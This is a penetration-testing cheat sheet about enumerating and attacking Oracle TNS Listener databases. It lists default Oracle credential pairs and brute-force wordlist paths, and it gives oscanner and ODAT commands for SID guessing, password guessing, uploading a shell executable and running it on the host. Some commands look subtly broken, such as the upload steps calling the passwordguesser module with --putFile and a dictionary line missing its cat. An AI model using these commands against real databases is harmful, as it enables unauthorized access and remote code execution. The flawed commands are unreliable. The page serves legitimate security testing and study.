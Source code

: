 # Oracle TNS Listener - 1521,1522,1529

## Oracle Information

Oracle database \(Oracle DB\) is a relational database management system \(RDBMS\) from the Oracle Corporation \(from [here](https://www.techopedia.com/definition/8711/oracle-database)\).

When enumerating Oracle, the first step is to contact the TNS-Listener, which is normally found on the default port \(1521/TCP; secondary listeners can be found on ports 1522–1529\).

```text
1521/tcp open  oracle-tns    Oracle TNS Listener 9.2.0.1.0 (for 32-bit Windows)
1748/tcp open  oracle-tns    Oracle TNS Listener
```

## SQLPlus Authentication

To login using known credentials:

```text
sqlplus <username>/<password>@<ip_address>/<SID>;
```

If the TNS Listener is on a non-default port \(e.g. TCP/1522\) :

```text
sqlplus <username>/<password>@<ip_address>:<port>/<SID>;
```

If an **account has system database privileges \(sysdba\) or system operator \(sysop\)** you may wish to try the following:

```bash
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';
```

## **SID Bruteforce**

In order to use **oracle\_login** with **patator** you need to **install**:

```text
pip3 install cx_Oracle --upgrade
```

### **Default Passwords**

Below are some of the default passwords associated with Oracle:

* **DBSNMP/DBSNMP** — Intelligent Agent uses this to talk to the db server \(its some work to change it\)
* **SYS/CHANGE\_ON\_INSTALL** — Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
* **PCMS\_SYS/PCMS\_SYS** — Default x account
* **WMSYS/WMSYS** — Default x account
* **OUTLN/OUTLN** — Default x account
* **SCOTT/TIGER** — Default x account

### User/Pass bruteforce

Different tools offered **different user/pass lists** for oracle:

* **oscan:** _/usr/share/oscanner/accounts.default_ \(169 lines\)
* **MSF-1:**  _from_ admin/oracle/oracle\_login  __/usr/share/metasploit-framework/data/wordlists/oracle\_default\_passwords.csv \(598 lines\)
* **MSF-2:** _from scanner/oracle/oracle\_login_  _/usr/share/metasploit-framework/data/wordlists/oracle\_default\_userpass.txt_ \(568 lines\)
* **Nmap:** _/usr/share/nmap/nselib/data/oracle-default-accounts.lst_ \(687 lines\)

## oscanner

**Oscanner**, which will try to get some valid SID, and then it will brute-force for valid credentials and try to extract some information:

```bash
#apt install oscanner
oscanner -s <IP> -P <PORT>
```

## ODAT

{% embed url="https://github.com/quentinhardy/odat" %}

**ODAT** \(Oracle Database Attacking Tool\) is an open-source **penetration testing** tool that tests the security of **Oracle Databases remotely**.

Usage examples of ODAT:

* You have an Oracle database listening remotely and want to find valid **SIDs** and **credentials** in order to connect to the database
* You have a valid Oracle account on a database and want to **escalate your privileges** to become DBA or SYSDBA
* You have an Oracle account and you want to **execute system commands** \(e.g. **reverse shell**\) in order to move forward on the operating system hosting the database

Tested on Oracle Database **10g**, **11g**, **12c**, **18c,** and **19c**.

Your Oracle version:

```text
ls /usr/local/lib/oracle
```

Wiki of ODAT:

{% embed url="https://github.com/quentinhardy/odat/wiki" %}

### Find Valid Credentials

You can do SID guessing attack with the following command:

```
python3 odat.py sidguesser -s <IP>
```

Dictionary

```text
/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv | tr ' ' '/' | tail -n 50 > passwords.txt
```

After finding a valid SID:

```text
python3 odat.py passwordguesser -s <IP> -d <SID> --accounts-file passwords.txt
```

### Upload Files

```text
# No sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe
# Use sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe --sysdba
```

### Execute Commands

```text
# No sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe
# Use sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe --sysdba
# Alternatively
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"

```



